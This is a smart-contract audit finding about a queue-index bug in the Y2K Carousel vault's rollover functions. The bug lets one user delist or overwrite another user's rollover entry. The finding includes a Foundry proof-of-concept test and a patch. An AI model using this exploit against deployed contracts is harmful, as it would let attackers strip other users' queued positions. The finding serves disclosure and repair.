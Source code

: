 ne0n

high

# A malicious User can delist another User from the `rolloverQueue`. User can also pollute the `rolloverQueue`

## Summary
A user enlisted before can call the `enlistInRollover` again, causing its index to point to the end of the queue and thus to the wrong entry in the `rolloverQueue`. When delisting this index is read and thus it is removed from the `rolloverQueue`.

**Note:**  *A malicious actor can also change the `assets` and `epochId` of a user(at the end of the current state of the
queue) instead of delisting them. This can pollute the whole queue*. 

## Vulnerability Detail
This happens because when enlisting again the `enlistInRollover` assigns the index of the `_receiver` to the end of the `rolloverQueue` even though it is already present in the `rolloverQueue` somewhere else. Thus the wrong `_reciever` is matched to the wrong index. This index is then read `delistInRollover` and thus an entry can be deleted from the list belonging to the wrong receiver.

Scenario:
1. Bob enlists in the rollover
2. Alice enlists in the rollover
3. Bob updates its entry to reflects say some other value. (This call will point the index of Bob to that of Alice)
4. Bob delists from the rollover causing Alice's entry to be deleted from the queue. 

**Note:** *Bob's entry from `ownerToRollOverindex` is gone, but it is still present in the queue. He can still reap the benefits of rollover*.  

**Note:**  *Bob can attach to Alice once and then further down the line delist Alice even though there are entries present after Alice in `rolloverQueue`*. 

## Impact
A malicious user can delist a user present at the end of the `rolloverQueue`  by enlisting again.

## Code Snippet
https://github.com/sherlock-audit/2023-03-Y2K/blob/main/Earthquake/src/v2/Carousel/Carousel.sol#L268

```solidity
    function enlistInRollover(
        uint256 _epochId,
        uint256 _assets,
        address _receiver
    ) public epochIdExists(_epochId) minRequiredDeposit(_assets) {
        // check if sender is approved by owner

        // check if user has already queued up a rollover
        if (ownerToRollOverQueueIndex[_receiver] != 0) {
            // if so, update the queue
            
        } else {
            // if not, add to queue
            rolloverQueue.push()
            );
        }
        // @audit - Overwriting exisiting reciever with the end of the queue
        ownerToRollOverQueueIndex[_receiver] = rolloverQueue.length;

    }
```

## Tool used
Foundry

Manual Review

## POC
Adding  view function to get receiver of queue for testing(Carousel.sol)
```gitdiff
diff --git a/Earthquake/src/v2/Carousel/Carousel.sol b/Earthquake/src/v2/Carousel/Carousel.sol
index ed460af..52662dc 100644
--- a/Earthquake/src/v2/Carousel/Carousel.sol
+++ b/Earthquake/src/v2/Carousel/Carousel.sol
@@ -649,6 +650,10 @@ contract Carousel is VaultV2 {
         return rolloverQueue.length;
     }
 
+    function getRolloverQueueReceiver(uint256 idx) public view returns (address) {
+        return rolloverQueue[idx].receiver;
+    }
+
```
CarouselTest.t.sol
```solidity
   function testDelistInRollOverAttack() public {
        // create two epochs
        uint40 _epochBegin = uint40(block.timestamp + 1 days);
        uint40 _epochEnd = uint40(block.timestamp + 2 days);
        uint256 _epochId = 2;
        uint256 _emissions = 100 ether;

        deal(emissionsToken, address(vault), 100 ether, true);
        vault.setEpoch(_epochBegin, _epochEnd, _epochId);
        vault.setEmissions( _epochId, _emissions);

        helperDepositInEpochs(_epochId,USER, false);
        helperDepositInEpochs(_epochId,USER2, false);
        vm.warp(_epochBegin - 10 minutes);

        helperDepositInEpochs(_epochId,USER, false);
        helperDepositInEpochs(_epochId,USER2, false);

        // enlist in rollover for next epoch
        vm.startPrank(USER);
        //_epochId == epoch user is depositing in / amount of shares he wants to rollover
        vault.enlistInRollover(_epochId, 8 ether, USER);
        vm.stopPrank();
        assertEq(vault.ownerToRollOverQueueIndex(USER), 1);

        vm.startPrank(USER2);
        vault.enlistInRollover(_epochId, 8 ether, USER2);
        vm.stopPrank();

        // Enlist again. This call will just update the parameters. But it will also make the `ownerToRolloverIndex` point to the end of the queue.
        vm.startPrank(USER);
        vault.enlistInRollover(_epochId, 7 ether, USER);
        vm.stopPrank();

        assertEq(vault.ownerToRollOverQueueIndex(USER), 2);

        // USER2 is at the end of the `rolloverQueue`
        assertEq(vault.getRolloverQueueReceiver(vault.getRolloverQueueLenght()-1), USER2);
        // USER is also pointing to end 
        assertEq(vault.ownerToRollOverQueueIndex(USER), vault.getRolloverQueueLenght());


        vm.startPrank(USER);
        vault.delistInRollover(USER);
        vm.stopPrank();

        // USER2 index now points beyond the boundry of the queue.
        assertEq(vault.ownerToRollOverQueueIndex(USER2), vault.getRolloverQueueLenght()+1);
        assertTrue(vault.ownerToRollOverQueueIndex(USER2) > vault.getRolloverQueueLenght());

        // `rolloverQueue` does not contain an entry for USER2 at all.
        for(uint i=0; i<vault.getRolloverQueueLenght(); i++) {
           // USER2 has been removed from the queue
            assertFalse(vault.getRolloverQueueReceiver(i) == USER2);
        }

    }
```

## Recommendation
Update the index only if `enlistInRollover` called for the first time.

```gitdiff
diff --git a/Earthquake/src/v2/Carousel/Carousel.sol b/Earthquake/src/v2/Carousel/Carousel.sol
index ed460af..e623e3c 100644
--- a/Earthquake/src/v2/Carousel/Carousel.sol
+++ b/Earthquake/src/v2/Carousel/Carousel.sol
@@ -264,8 +264,10 @@ contract Carousel is VaultV2 {
                     epochId: _epochId
                 })
             );
+            ownerToRollOverQueueIndex[_receiver] = rolloverQueue.length;
         }
-        ownerToRollOverQueueIndex[_receiver] = rolloverQueue.length;

```